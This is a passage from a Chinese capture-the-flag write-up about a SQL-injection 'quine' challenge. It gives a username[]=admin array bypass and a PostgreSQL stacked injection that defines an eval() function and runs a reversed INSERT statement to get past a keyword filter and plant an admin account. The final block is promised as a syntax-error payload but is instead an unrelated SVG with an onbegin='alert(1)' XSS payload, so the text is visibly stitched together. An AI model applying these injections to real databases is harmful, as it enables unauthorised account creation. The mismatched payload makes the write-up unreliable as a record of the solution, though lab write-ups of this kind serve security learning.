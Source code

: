 ```

`}`);
```

题目是一个看似 quine ([https://en.wikipedia.org/wiki/Quine_(computing)](https://en.wikipedia.org/wiki/Quine_(computing))) 的 sql 注入语句构造小游戏, 所谓quine就是代码或指令的内容与该代码/指令执行返回结果相同。本题是要构造注入语句与注入结果相同(password)。

首先需要通过对用户名的检测，既不能等于 “admin”，同时算出来的 hash 还要和 admin 相同，这里使用了 javascript 的小 trick：

[![](https://p1.ssl.qhimg.com/t018a22a60dfd81bf41.jpg)](https://p1.ssl.qhimg.com/t018a22a60dfd81bf41.jpg)

通过 username[]=admin 即可绕过检测。

接下来就是对 password 这里 sql 注入的考量，首先题目设定了一些 waf 拦截了一些关键词以及限制了一些词的使用次数。

可以简单的对数据库类型进行探测，尝试了一些常用的 mysql 函数，发现不匹配(报错)，sqlite 函数也不匹配，最终定位成 pgsql。

然后通过 like 语句测试出 users 表是空表，那么很显然的解决方案:
<li>绕过 waf 进行 quine 的构造;
</li>
1. 通过堆叠注入向表中插入数据。
第一个方案对于 pgsql 来说很简单，pgsql 存在 current_query 或者一些系统表可以获取当前执行的语句，但是因为关键词次数的限制以及 union 不明原因无法正常使用(可能和对应的 pgsql 版本有关)，笔者放弃了。

最后通过 create function 建立一个可以执行任意 query 的函数，通过字符串翻转函数绕过 waf，执行 insert 插入数据。感觉可能是非预期解法。

[https://stackoverflow.com/questions/7433201/are-there-any-way-to-execute-a-query-inside-the-string-value-like-eval-in-post](https://stackoverflow.com/questions/7433201/are-there-any-way-to-execute-a-query-inside-the-string-value-like-eval-in-post)

```
create or replace function eval(expression text) returns integer
as
$body$
declare
  result integer;
begin
  execute expression;
  return 1;
end;
$body$
language plpgsql;
select eval(reverse(')''ass111'' ,''nimda''( seulav )drowssap ,emanresu( sresu otni tresni'));
commit;
```

最后一个问题，执行堆叠注入会导致 client.query 返回为空，使题目挂掉，因为执行了 commit 操作，所以可以在其后构造一些语法错误，让 err 有返回值：

```
&lt;?xml version="1.0"?&gt;&lt;?x
&lt;!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN"
  "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd"&gt;
&lt;svg xmlns="http://www.w3.org/2000/svg"
 width="467" height="462"&gt;
  &lt;rect x="80" y="60" width="250" height="250" rx="20"
      style="fill:#ff0000; stroke:#000000;stroke-width:2px;" /&gt;
  
  &lt;rect x="140" y="120" width="250" height="250" rx="40"
      style="fill:#0000ff; stroke:#000000; stroke-width:2px;
      fill-opacity:0.7;" /&gt;
      &lt;animate onbegin='alert(1)' attributeName='x' dur='1s'&gt;&lt;/animate&gt;
&lt;/svg&gt;
```
